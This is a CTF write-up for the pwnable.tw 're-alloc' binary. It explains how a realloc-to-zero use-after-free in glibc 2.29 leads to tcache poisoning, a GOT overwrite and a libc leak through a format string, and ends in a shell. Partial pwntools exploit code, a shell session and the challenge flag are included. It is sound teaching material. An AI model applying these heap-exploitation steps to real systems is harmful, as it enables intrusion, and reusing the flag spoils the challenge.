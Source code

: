 # re-alloc

???

## checksec

```python
[*] '/mnt/d/CTFs/pwnable-tw/re-alloc/re-alloc'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    FORTIFY:  Enabled
```

## Overview of Binary & Vulnerability

The binary allows us to alloc, realloc (to change the size of) and free chunks. The main issue is that in the function to realloc chunks, `reallocate`, 

1. there is no check preventing us from realloc-ing a chunk of size 0, and
2. as we would expect for a realloc for a positive size, the pointer to the realloc-ed chunk is preserved. 

Now, the [man page for realloc](https://linux.die.net/man/3/realloc) states that

> The realloc() function changes the size of the memory block pointed to by ptr to size bytes. The contents will be unchanged in the range from the start of the region up to the minimum of the old and new sizes. If the new size is larger than the old size, the added memory will not be initialized. If ptr is NULL, then the call is equivalent to malloc(size), for all values of size; **if size is equal to zero, and ptr is not NULL, then the call is equivalent to free(ptr)**. Unless ptr is NULL, it must have been returned by an earlier call to malloc(), calloc() or realloc(). If the area pointed to was moved, a free(ptr) is done.

which means that if we can call `realloc` with size 0 twice on the same pointer (with some caveats that will be discussed later), we'd essentially have achieved double-free into the tcache! 

We will see later, however, that due to tcache double-free protections, we end up just using UAF (which would've been required to bypass the tcache double-freeing protections anyways) to perform tcache poisoning, and thus obtain arb-write capability. 

Looking into a short snipplet of the decompiled code from that function, and knowing that `realloc` with size 0 i.e. `free` returns nothing (i.e. rax will be 0), 

```c
0040155c              int64_t rax_10 = realloc(*(uint64_t*)((rax_2 << 3) + &heap), bytes);
0040156a              if (rax_10 != 0)
0040156a              {
00401591                  *(uint64_t*)((rax_2 << 3) + &heap) = rax_10;
004015a1                  printf("Data:");
004015c8                  rax_7 = read_input(*(uint64_t*)((rax_2 << 3) + &heap), bytes);
0040156a              }
0040156a              else
0040156a              {
00401573                  rax_7 = puts("alloc error");
0040156a              }
```

we see that a free is achieved without deleting the pointer to the chunk. This creates the basic conditions for us to investigate both double-freeing and UAF possibilities. 

> NOTE: There is an additional vulnerability in the binary where, in the function to alloc free chunks, there is an off-by-null - however, this is not required for this challenge. I think that this vulnerability will probably need to be used for the re-alloc revenge challenge. 

## Attempt 1: Double Freeing into the tcache

### What are tcache keys?

In this version of glibc (2.29), the tcache double-freeing protection isn't something that is overcome as easily as freeing another chunk into the tcache before double-freeing the original chunk. Instead, each `tcache_entry` struct (that occupies the user data space in the chunk once it is freed into the tcache) has an additional data field `key` that is a pointer to the thread's `tcache_perthread_struct`. 

```
typedef struct tcache_entry
{
  struct tcache_entry *next;
  /* This field exists to detect double frees.  */
  struct tcache_perthread_struct *key;
} tcache_entry;
```

If a chunk that is to be freed into the tcache has its `key` field equal to the addr of the thread's `tcache_perthread_struct`, then `free` will check through the entirety of that tcache bin to see if any of the chunks in the bin have the same address that the one that is about to be freed. This explanation is probably hard to visualize - you can read the source code for this functionality [here](https://elixir.bootlin.com/glibc/glibc-2.29/source/malloc/malloc.c#L4189). 

Also, a more detailed explanation of this protection can be found [here](https://ir0nstone.gitbook.io/notes/binexp/heap/tcache-keys). 

As mentioned on that page, we can bypass this protection overwrite by overwriting the `key` field by way of a UAF primitive. However, I soon realized that the UAF allows us to poison the tcache directly...

## Using the UAF primitive to tcache-poison

### Where's our UAF primitive?

Our UAF primitive comes from, after freeing and maintaining a pointer to the freed chunk through a realloc of 0 bytes, realloc-ing the same chunk but with the its size (i.e. so a realloc with no size change). In the function provided by binary (the decompiled code was shown in the [Overview of Binary & Vulnerability](#overview-of-binary--vulnerability) section), after the realloc, we are allowed to write data to the chunk. 

Since a realloc for the same size returns that very same chunk, we essentially have write capability into a freed chunk!

Here's some Python that illustrates this

```python
# We first free a chunk into the tcache and use the UAF prmitive to directly overwrite its next ptr
# The size of the chunks are arbitrary but should be the same throughout so that the same tcache bin is accessed
alloc(0, 0x38, b'A'*0x38)
realloc(0, 0, b'') # Free while retaining pointer    
realloc(0, 0x38, p64(exe.got.atoll) + b'A'*0x30) # Use the UAF primitive to overwrite the next ptr in the freed chunk
```

Notably, we aren't going to need to double-free (and deal with bypassing protections) anymore to write into a freed chunk - this UAF primitive does it for us. 

### Achieving arb-write

Based on what was set up in the tcache above, if we alloc a chunk of user data size 0x38 twice, we'd have arb-write to that memory location. We only have 1 free element in the chunk pointer array (its symbol in the binary is `heap`) in the bss, so we need to do a bit of finnicking to get this down

```python
# We still have the tcache entry in the tcache_perthread_struct, so we alloc/realloc this away to the other index of the chunk pointer array
# This will force the addr we want to write to (which was the next ptr) to be placed in the tcache_perthread_struct for the next alloc
alloc(1, 0x38, b'A'*0x38)
# Now, we cannot easily alloc again because the function (in the binary) will fail since both entries in the chunk pointer array are non-null
# Thus, we will need to perform the following to get arb-write: 
# 1. Realloc the chunk to a smaller size to split it into two chunks, where one is used and one is freed
# 2. Free this smaller chunk (so that it doesn't go into the tcache bin of our orginal size)
# 3. Alloc a chunk of our original size
# This will allocate a new chunk of the original size so that arb-write is achieved
realloc(1, 0x10, b'A'*0x10)
free(1)
alloc(1, 0x38, p64(exe.plt.printf))
```

This would have written the PLT entry of printf of the program into the GOT entry of atoll. 

## Concept of Exploit

Given our arb-write capability, as well as the internals of the binary, the concept of our exploit is to
1. Overwrite the GOT entry of atoll with the PLT entry of printf
2. Use a format string vuln to leak the libc base addr
3. Overwrite the GOT entry of atoll with the address of libc system

## Tweaks to our arb-write Implementation

Given the concept above, we need to make a few tweaks to our arb-write implementation. 

### No. of arb-writes required through tcache poisoning

Since the format string vulnerability writes into a buffer that is only 16 bytes big, it is not possible to even attempt a byte-by-byte write of integer granularity since, if the no. of chars is a 3-digit base 10 number, we will exceed the buffer size

```python
# Length 17 payload that would write c8 00 00 00 into addr
b'%200c%9$n' + p64(addr)
```

Thus, we actually need 2 tcache poisoning-enabled arb-writes. However, if we perform one arb-write, we corrupt one entry of the array (in bss) of entries that point to chunks on the heap with the addr we wrote to. Recall that we needed 2 indexes (and only have 2) to perform the arb-write. 

Thankfully, we only corrupt an entry in the array when actually allocating the chunk for the arb-write. To avoid locking ourselves out of a second arb-write, we can setup both arb-writes before actually performing any arb-writes.

### Setting up both arb-writes before performing them

In [Achieving arb-write](#achieving-arb-write), we poisoned the tcache bin for chunks of size 0x40 to perform the arb-write. 

Now, instead of immediately actualizing the arb-write by allocating, we only set-up the relevant tcache bin, before doing some cleanup so that the entry at index 0 of the `heap` bss array is zeroed so that the setup can be repeated (but now with a different chunk size so that a different tcache bin is targeted). 

```python
# From the "Achieving arb-write" section, without the alloc
realloc(1, 0x10, b'A'*0x10)
free(1)

# Cleanup so that index 0 can be allocated to again, and increment num_writes_setup
realloc(0, 0x10, b'A'*0x10) # This actually overwrites the tcache key so that libc does not detect a double-free
free(0)
```

We just need to make sure that we use a different tcache bin for each arb-write setup. I personally just used the chunk sizes 0x40 and 0x50. 

The rest of the implementation can be found in the [solve script](./solve.py). 

## Flag

```bash
[+] Opening connection to chall.pwnable.tw on port 10106: Done
[*] hex(libc.address)='0x7f6a87925000'
[*] Switching to interactive mode
$ cd home
$ ls
re-alloc
$ cd re-alloc
$ ls
flag
re-alloc
run.sh
$ cat flag
FLAG{r3all0c_the_memory_r3all0c_the_sh3ll}
```